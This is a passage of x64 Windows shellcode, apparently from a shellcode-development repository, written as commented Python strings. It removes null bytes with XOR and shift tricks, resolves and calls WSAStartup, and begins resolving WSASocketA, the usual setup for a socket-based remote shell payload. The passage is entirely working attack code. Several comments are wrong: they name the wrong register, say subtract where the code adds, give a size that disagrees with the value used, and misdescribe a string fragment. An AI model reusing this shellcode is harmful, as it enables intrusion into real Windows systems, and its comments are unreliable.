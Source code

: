 ```
        # " push rax;"                      # Push the substring onto the stack
        # " mov rax, 0x7472617453415357;"   # Load "WSAStart" into RAX
        # Null Byte Fix
        " xor rax, rax; "
        " mov ax, 0x7075; "                 # Load "up" into AX (16-bit register)
        " push rax; "                       # Push "up" onto the stack
        " mov rax, 0x7472617453415357;"     # Load "WSAStart" into RAX
        
        " push rax; "                       # Push the complete function name onto the stack
        " mov rdx, rsp; "                   # Move the stack pointer to RDX, pointing to "WSAStartup"
        " mov rcx, r15; "                   # Copy the base address of WS2_32.dll from R15 to RCX
        # " sub rsp, 0x30; "                # Allocate 48 bytes on the stack to maintain alignment (Null Byte)
        # Null byte fix
        " xor rbx, rbx; "                   # Zero out rbx to start fresh
        " add rbx, 0x30FFFFF; "             # Load rbx with a large number
        " shr rbx, 0x14; "                  # Right-shift rbx by 20 bits to get 0x30
        " sub rsp, rbx; "                   # Subtract 0x30 from rsp

        " call r14;"                        # Call GetProcAddress, which is stored in R14
        # " add rsp, 0x30; "                # Clean up the allocated stack space (Null Byte)
        # Null byte fix
        " xor rbx, rbx; "                   # Zero out rbx to start fresh
        " add rbx, 0x30FFFFF; "             # Load rbx with a large number
        " shr rbx, 0x14; "                  # Right-shift rbx by 20 bits to get 0x30
        " add rsp, rbx; "                   # Add 0x30 to rsp

        # " add rsp, 0x10; "                # Adjust stack to remove the space used by the string "WSAStartup" (Null Byte)
        # Null byte fix
        " xor rbx, rbx; "                   # Zero out r15 to start fresh
        " add rbx, 0x10FFFFF; "             # Load r15 with a large number
        " shr rbx, 0x14; "                  # Right-shift r15 by 20 bits to get 0x10
        " add rsp, rbx; "                   # Subtract 0x10 from rsp

        " mov r12, rax; "                   # Store the address of WSAStartup in R12 for later use

        # Initialize WSAStartup
        " xor rcx, rcx; "                   # Clear RCX to prepare for value setting
        " mov cx, 408; "                    # Set RCX to 408 (allocates 408 bytes on stack for lpWSAData)
        " sub rsp, rcx; "                   # Allocate 408 bytes on the stack for lpWSAData
        " lea rdx, [rsp]; "                 # Load Effective Address of the stack into RDX for lpWSAData
        " mov cx, 514; "                    # Set wVersionRequested to 2.2 (0x0202 in hexadecimal)
        # " sub rsp, 88; "                  # Allocate additional space (88 bytes) on the stack for local variables or to maintain alignment (Null byte)
        # Null byte fix
        " xor rax, rax; "                   # Zero out rax to start fresh
        " add rax, 0x88FFFFF; "             # Load rax with a large number
        " shr rax, 0x14; "                  # Right-shift rax by 20 bits to get 0x88
        " sub rsp, rax; "                   # Subtract 0x88 from rsp

        " call r12; "                       # Call WSAStartup using the address stored in R12

        # Resolve WSASocketA Address
        # " mov rax, 0x4174;"               # Load part of the function name "A" into RAX
        "xor rax, rax; "
        " mov ax, 0x4174;"                  # Load part of the function name "A" into AX (16-bit register)
        " push rax;"                        # Push the substring onto the stack
        " mov rax, 0x656b636f53415357;"     # Load "WSASocke" into RAX
```